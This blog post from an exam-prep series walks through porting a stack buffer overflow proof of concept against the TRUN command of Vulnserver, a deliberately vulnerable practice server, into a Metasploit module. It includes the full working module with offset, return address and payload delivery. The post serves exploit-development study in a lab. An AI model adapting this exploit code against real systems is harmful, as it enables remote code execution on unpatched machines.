


In a previous blogpost, we exploited the TRUN command within Vulnserver. Lets port our POC to a Metasploit module!
This post is a part of the OSED Prep series!
Kali linux or anything with pentesting tools will work perfectly fine.
After reaching part 4 of corelans exploit development series, I decided to try my luck at porting my vulnserver POC to Metasploit. While their example was great, a few google searches later landed me on a template for vulnserver that was an excellent starting point.
I then created a new exploit within metasploits default path, in which our starting template will be pasted.
mkdir -p /kali/.msf4/modules/exploits/windows/misc
sudo vim /kali/.msf4/modules/exploits/windows/misc/vulnserver_bof.rb
Ensure that you execute
reload_allwithin msfconsole when adding or modifying modules. Additionally, DEP should be disabled!
Upon initial testing, the module was able to create a payload and establish a metasploit session. This initially confused me, as the payload value within my POC was slightly larger in comparison to the authors. despite targeting the same RET address.
This ended up being a result of the ‘TRUN’ command containng 2 extra characters as a result of their fuzzers discovered prefix. This deviation explains the 2003 vs 2005 offset length for the payload.
Below is my final code with modifications to match the exploit created during my previous blog post.
# Metasploit template modified from corelan.be
# BoF for vunserver thegreycorner.com
# https://github.com/stephenbradshaw/vulnserver
# Everett Platt
require 'msf/core'
class MetasploitModule < Msf::Exploit::Remote
include Msf::Exploit::Remote::Tcp
def initialize(info = {})
super(update_info(info,
'Name' => 'Vulnserver stack overflow (NO DEP)',
'Description' => %q{
This module exploits a stack overflow in the
vulnserver application.
},
'Author' => [ 'Everett Platt'],
'Version' => '$Revision: 1 $',
'References' =>
[
[ 'Vunserver', 'http://www.thegreycorner.com/p/vulnserver.html' ],
[ 'corelan.be', 'http://tinyurl.com/64s3je4' ],
[ 'xormancer.github.io', 'https://xormancer.github.io/posts/vulnserver1/' ],
],
'DefaultOptions' =>
{
'EXITFUNC' => 'process',
},
'Payload' =>
{
'Space' => 500,
'BadChars' => "\x00",
},
'Platform' => 'win',
'Targets' =>
[
['Windows XP Universal',
{ 'Ret' => 0x625011af, 'Offset' => 2005 } ],
],
'DefaultTarget' => 0,
'Privileged' => false
))
register_options(
[
Opt::RPORT(9999)
], self.class)
end
def exploit
connect
junk = make_nops(target['Offset'])
sploit = 'TRUN /.' + junk + [target.ret].pack('V') + make_nops(32) + payload.encoded
sock.put(sploit)
handler
disconnect
end
end
After providing the correct arguments, our module was able to successfully establish a metasploit session.

On windows we can notice our client connection, which successfully delivered our malicious payload.

https://bowneconsultingcontent.com/pub/EH/proj/H311.htm
https://xormancer.github.io/posts/vulnserver1/
The eldritch tomb breathes as you unseal its ancient bindings, forgotten curses searing your mind as you ingest its forbidden knowledge.